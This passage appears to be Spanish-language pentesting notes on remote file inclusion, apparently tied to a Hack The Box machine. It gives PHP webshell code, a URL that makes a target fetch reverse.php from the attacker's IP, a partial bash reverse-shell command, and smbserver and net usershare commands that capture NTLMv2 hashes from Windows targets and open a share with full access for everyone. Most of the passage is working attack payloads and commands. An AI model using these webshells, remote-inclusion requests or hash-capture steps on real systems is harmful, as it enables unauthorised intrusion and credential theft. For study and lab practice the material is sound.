 Ahora en la url añadimos y realizamos petición:
`http://mesasysillas/file.php?file=http://miIp/reverse.php`  
Y nos llegaría la consola si todo ha ido bien.

En ese reverse.php hay maneras distintas de hacerlo, por ejemplo:

``` php
<?php
echo “<pre>” . shell_exec($_GET[‘cmd’]) . “</pre>”; 
?>
```
Y desde la url esta vez:
`http://mesasysillas/file.php?file=http://miIp/reverse.php&cmd=bash -c ‘bash -i …` y lo mismo.
A esto también se le conoce como webshell, lanzar comandos desde la web.

En máquinas **Windows** como objetivo podemos probar a realizar una carga de archivos a través de un recurso compartido con smbserver. En mi máquina creamos el recurso compartido:
```  
> smbserver.py smbFolder $(pwd) -smb2support
```` 
Y ahora desde la web objetivo:  
`http://pagequesea/algo.php?parametro=\\miIp\smbFolder\prueba`

Si nos llega conexión igual vemos un hash ntlmv2 que podemos intentar crackear, si no llega ese hash es raro pero podemos probar a continunar con esa herramienta -smbserver- ( yo lo hice y funcionó), o bien creamos credenciales para luego conectarnos con ellas -pero si no tenemos rce malamente-, o  tirar de net usershare. Visto máquina **Sniper**.
``` plaintext
> service smbd start
```
``` plaintext
> lsof -i:445
> net usershare add smbFolder $(pwd) ‘’ ‘Everyone:F’ ‘guest_ok=y’
```
Lo de **everyone:F** para que tengan todos privilegios máximos y lo de guest para permitir sesiones de invitados.

Y lo mismo desde la web o desde el burpsuite:
`http://pagequesea/algo.php?parametro=\\miIp\smbFolder\prueba`


Una vez que puedas descargar tus archivos compartidos tendremos que crear un php, un asp o un aspx, depende de lo que pueda interpretar, si vemos que en la web esta interpretando php podriamos probar primeramente con algo asi:
``` php
<?php
phpinfo();
?>
```
Lo anterior para ver que funciones están deshabilitadas. Después, por ejemplo (si system no está deshabilitada):
``` php
<?php
system($_REQUEST[‘cmd’]); 
?>
```


[hacktricks]: https://book.hacktricks.xyz/welcome/readme
[patt]: https://github.com/swisskyrepo/PayloadsAllTheThings 